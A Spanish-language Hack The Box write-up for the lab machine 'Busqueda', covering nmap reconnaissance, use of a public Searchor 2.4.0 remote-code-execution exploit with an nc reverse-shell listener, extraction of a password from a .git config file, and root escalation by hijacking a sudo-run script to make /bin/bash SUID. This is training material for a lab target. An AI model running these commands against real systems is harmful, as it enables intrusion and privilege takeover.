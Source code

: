 ```yaml
---
title: Writeup busqueda - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - busqueda
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina busqueda en Hack The Box.
keywords:
  - writeup busqueda
  - hack the box busqueda
  - resolución máquina busqueda
  - busqueda hack the box
  - htb busqueda
---
```

------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Busqueda)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=QMIQ5e4sjVQ)|[Parte2](https://www.youtube.com/watch?v=DztFFuapoDU)
- 🧠 **Explicación resumida**: 

---

#nmap #ping #easy #linux #startlab #/etc/hosts #whatweb #wappalyzer #searchor240 #git #gitclone #nc-nlvp443 #tratamientotty #cd #filehijacking #cd #ls #nano #chmod

----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

Se puede utilizar la version automatizada que tenemos creada con [[startlab]] o si no de forma manual con los siguientes comandos

```shell
ping -c 1 IP
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn IP -oG allPortsTCP
extractPorts allPortsTCP
nmap -sCV -pPuertos IP -oN targetTCP
nmap -sU -n -Pn --top-ports 200 IP -oG allPortsUDP
extractPorts allPortsUDP
nmap -sU -sCV -pPuertos IP -oN targetUDP
```

*TTL:* Maquina Linux

*Puertos  TCP:*
	`22` [[ssh]]
	`80` HTTP
	
*Puertos UDP:*
	Solamente esta abierto el 68 de dhcpc y no nos sirve

![[Busqueda6.png]]
![[Busqueda7.png]]
![[Busqueda8.png]]

------
# Agregamos dominio al /etc/hosts

Vemos que la pagina nos envia a searcher.htb asi que lo vamos a cargar en el /etc/hosts
![[Busqueda1.png]]![[Busqueda2.png]]
```
10.129.88.165 searcher.htb
```

![[Busqueda4.png]]

Y listo ahora si nos carga la pagina

![[Busqueda5.png]]

------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://searcher.htb/
```

![[Busqueda9.png]]
![[Busqueda10.png]]
Ninguna informacion relevante


-------
# Intrusion a la maquina por [[searchor 2.4.0]]

Vemos al final de la pagina que esta corriendo searchor 2.4.0
![[Busqueda13.png]]

Asi que con [[git clone]] vamos a usar ``git clone https://github.com/twisted007/Searchor_2.4.0_RCE_Python`` para descargar el repositorio, luego con [[cd]] usamos `cd Searchor_2.4.0_RCE_Python` para entrar a la carpeta y ejecutamos el exploit `python3 searchor-2_4_0_RCE.py searcher.htb 10.10.16.84 443`
En los parametros vamos a colocar la pagina web victima y luego la ip/puerto donde vamos a estar en escucha con [[nc -nlvp 443]] para recibir la [[Reverse shell]]



![[Busqueda14.png]]

![[Busqueda15.png]]
Ya estamos dentro de la maquina victima como el usuario *svc*

-----
# [[Tratamiento de la TTY]]

--------
# Escalada de privilegios con [[File hijacking]]

Listamos todos los archivos con [[ls]] usamos `ls la` y vemos el directorio *.git* entramos con [[cd]] usando el comando `cd .git` y luego listamos con `ls` para ver el archivo *config* que lo vamos a abrir con [[cat]] usando `cat config`
![[Busqueda39.png]]

http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
Vemos estas credenciales: ``cody:jh1usoih2bkjaspwe92``

La contraseña *jh1usoih2bkjaspwe92* la vamos a reutilizar para el usuario *svc*

Ahora vamos a listar los permisos de [[sudo]] con `sudo -l`
![[Busqueda24.png]]
Nos dice que podemos utilizar el siguiente binario como root

```
(root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Si ejecutamos el binario vemos que tenemos parametros que podemos utilizar
Cuando usamos el full-checkup `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup` nos dice "Sometings went wrong"

![[Busqueda41.png]]


![[Busqueda42.png]]
![[Busqueda43.png]]

Pero si nos vamos a directorio */opt/scripts* donde dice que esta el *system-checkup* y se ejecuta
Asi que viendo los archivos del directorio con [[ls]] vemos que tenemos un full-checkup.sh

Sacamos la conclusion de que la opcion de *full-checkup.sh* se ejecuta archivos que tengan ese nombre y buscando el archivo en el directorio actual de trabajo. Por lo tanto vamos a hacer un [[File hijacking]]

### [[File hijacking]]

Vamos a ir a la carpeta /tmp usando `cd /tmp` y creamos un archivo con [[nano]] usando `nano full-checkup.sh`. Y al archivo le vamos a poner el siguiente contenido

```
#!/bin/sh
chmod u+s /bin/bash
```
Esto lo hacemos para hacer que sea [[SUID]]
![[Busqueda45.png]]

Ahora le damos permisos de ejecucion al archivo con [[chmod]] usando `chmod +x full-checkup.sh`
![[Busqueda46.png]]

Solamente nos queda ejecutar nuevamente el binario `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup` y ejecutamos la bash con privilegios usando `bash -p`. Y listo ya somos root y podemos catear la flag
![[Busqueda49.png]]
![[Busqueda50.png]]